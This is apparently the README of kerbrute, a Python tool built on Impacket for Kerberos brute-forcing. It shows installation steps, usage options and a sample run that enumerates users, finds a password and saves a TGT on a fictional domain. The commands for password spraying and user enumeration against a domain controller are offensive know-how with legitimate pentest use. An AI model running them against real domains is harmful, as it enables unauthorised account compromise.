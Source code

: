 # kerbrute
An script to perform kerberos bruteforcing by using the Impacket library.

When is executed, as input it receives a user or list of users and a password or list of password. Then is performs a brute-force attack to enumerate:
	* Valid username/passwords pairs
	* Valid usernames
	* Usernames without pre-authentication required

As a result, the script generates a list of valid credentials discovered, and the TGT's generated due those valid credentials.

## Installation

To install:
```
> git clone https://github.com/TarlogicSecurity/kerbrute
> cd kerbrute
> pip install -r requirements.txt
```

## Use

Help without arguments:
```shell
Impacket v0.9.18 - Copyright 2018 SecureAuth Corporation

usage: kerbrute.py [-h] [-debug] (-user USER | -users USERS)
                   [-password PASSWORD | -passwords PASSWORDS] -domain DOMAIN
                   [-dc-ip <ip_address>] [-threads THREADS]
                   [-outputfile OUTPUTFILE] [-no-save-ticket]

optional arguments:
  -h, --help            show this help message and exit
  -debug                Turn DEBUG output ON
  -user USER            User to perform bruteforcing
  -users USERS          File with user per line
  -password PASSWORD    Password to perform bruteforcing
  -passwords PASSWORDS  File with password per line
  -domain DOMAIN        Domain to perform bruteforcing
  -dc-ip <ip_address>   IP Address of the domain controller
  -threads THREADS      Number of threads to perform bruteforcing. Default = 1
  -outputfile OUTPUTFILE
                        File to save discovered user:password
  -no-save-ticket       Do not save retrieved TGTs with correct credentials

Examples: 
	./kerbrute.py -users users_file.txt -passwords passwords_file.txt -domain contoso.com

```

Example of execution:
```shell
root@kali:impacket-examples# python kerbrute.py -domain jurassic.park -users users.txt -passwords passwords.txt -outputfile jurassic_passwords.txt
Impacket v0.9.19-dev - Copyright 2019 SecureAuth Corporation

[*] Valid user => velociraptor [NOT PREAUTH]
[*] Valid user => trex
[*] Valid user => triceratops
[*] Stupendous => triceratops:Sh4rpH0rns
[*] Saved TGT in triceratops.ccache
[*] Saved discovered passwords in jurassic_passwords.txt
```
